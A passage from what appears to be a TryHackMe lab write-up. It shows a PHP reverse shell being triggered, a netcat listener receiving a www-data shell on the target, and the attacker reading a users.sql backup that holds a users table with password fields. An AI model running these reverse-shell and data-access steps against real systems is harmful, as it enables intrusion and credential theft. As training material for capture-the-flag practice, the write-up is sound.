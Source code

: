 ![image](https://github.com/ivanloh1216/TryHackMe/assets/58873811/a9ff5515-1404-463d-b60f-7aff8f44ea58)

Click on the phpreveseshell and we will get our reverse shell. 

Note: Make sure you have started the NetCat listener and it is listening on the correct port. Also, make sure you have modified the IP address in your phpreverseshell.

```
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.179.170] from (UNKNOWN) [10.10.78.59] 34674
Linux ip-10-10-78-59 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 02:22:25 up 38 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We will be able to find the email of the admin at the sql dump.

`cat /var/www/backup/users.sql`

```
$ cat /var/www/backup/users.sql
-- phpMyAdmin SQL Dump
-- version 5.2.1
-- https://www.phpmyadmin.net/
--
-- Host: 127.0.0.1
-- Generation Time: May 30, 2023 at 01:25 PM
-- Server version: 10.4.28-MariaDB
-- PHP Version: 8.0.28

SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Database: `postman`
--

-- --------------------------------------------------------

--
-- Table structure for table `users`
--

CREATE TABLE `users` (
  `id` int(11) NOT NULL,
  `username` varchar(50) NOT NULL,
  `password` varchar(255) NOT NULL,
  `email` varchar(100) NOT NULL,
  `name` varchar(100) DEFAULT NULL,
  `role` varchar(20) DEFAULT 'user'
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;

--
-- Dumping data for table `users`
```
